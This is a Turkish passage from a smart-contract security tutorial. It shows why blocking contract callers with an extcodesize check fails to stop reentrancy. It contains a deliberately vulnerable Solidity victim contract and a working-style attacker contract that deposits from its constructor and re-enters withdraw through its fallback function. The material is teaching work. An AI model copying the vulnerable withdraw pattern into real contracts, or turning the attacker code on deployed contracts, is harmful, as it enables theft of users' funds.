 Basitçe herhangi bir akıllı sözleşmenin kodunuzla etkileşime geçmesini engelleyerek yeniden giriş saldırısıyla başa çıkabileceğinizi düşünebilirsiniz. Stackoverflow'da arama yapıp, tonla beğeni almış olan bu kod parçacığını bulursunuz:

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Görünüşte mantıklıdır: Sözleşmelerde kod bulunur, eğer çağıranda herhangi bir kod varsa yatırmasına izin verme. Hadi ekleyelim:

```solidity
// THIS CONTRACT HAS INTENTIONAL VULNERABILITY, DO NOT COPY
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender)); // <- NEW LINE
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Artık ETH yatırmak için, adresinizde akıllı sözleşme kodu bulunmaması gerekir. Ancak bu, aşağıdaki Saldırgan sözleşmesiyle kolayca yenilebilir:

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 ether); // <- New line
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
   }
}
```
